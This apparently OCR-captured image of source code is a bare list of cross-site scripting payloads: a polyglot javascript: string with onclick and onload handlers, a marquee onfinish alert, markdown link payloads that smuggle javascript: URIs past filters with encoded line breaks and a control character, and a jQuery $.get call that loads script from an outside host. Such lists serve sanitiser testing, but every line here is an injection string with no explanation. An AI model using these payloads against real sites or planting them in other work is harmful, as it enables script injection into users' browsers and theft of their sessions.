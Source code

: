 jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

\');confirm(1);//

>><marquee loop=1 width=0 onfinish=alert(1)>
  
  $.get('http://sakurity.com/jqueryxss')
  
  [a](javascript:confirm(1))

[a](javascript://www.google.com%0Aprompt(1))

[a](javascript://%0d%0aconfirm(1))

[a](javascript://%0d%0aconfirm(1);com)

[a](javascript:window.onerror=confirm;throw%201)

[a]: (javascript:prompt(1))

[a]:(�javascript:alert(1))           //Add SOH Character
